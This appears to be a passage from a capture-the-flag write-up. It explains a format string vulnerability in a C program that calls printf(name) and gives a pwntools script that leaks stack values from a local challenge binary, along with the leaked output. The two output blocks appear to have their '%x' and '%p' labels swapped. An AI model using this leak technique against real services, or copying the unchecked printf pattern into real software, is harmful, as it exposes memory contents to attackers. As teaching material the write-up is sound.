 And as we analyze it closely, we can easily find that it has a **Format String Vulnerability** :

```c
...
    printf("Name : ");
    fgets(name, NAME_LEN, stdin)

    printf("Hi, ");
    printf(name);
...
```

The secret ingredient in the format string is the `format specifier` :

> **Format specifiers** define the type of data to be printed on standard output. You need to use format specifiers whether you're printing formatted output with printf() or  accepting input with scanf().

When the program sees a format specifier, it knows to expect a variable to replace that specifier.

By knowing that, we can through a Format string vulnerability make the program print to us values that we are not allowed to access by simply entering in the input some format specifiers. This way, the program will consider them as such and prints addresses values from the stack allowed to it. Here's another example (we can use `%x` or `%p`, it will give same result):

```py
#! /usr/bin/python3

from pwn import *

HOST = ''
PORT = ''

p = process('./chall')

p.sendline(b'%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p')
p.interactive()
```

Wit `%x` :

```
[+] Starting local process './chall': pid 27365
b'This may help later : 0x56c241a0\nName : '
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 27365)
Hi, 0x32 0xf7e1d620 0x565c5259 (nil) (nil) 0x70250000 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 [*] Got EOF while reading in interactive
```

Or with `%p` :

```
[+] Starting local process './chall': pid 27216
b'This may help later : 0x56a471a0\nName : '
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 27216)
Hi, 32 f7e1d620 56648259 0 0 78250000 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 [*] Got EOF while reading in interactive
$ 
[*] Interrupted
```
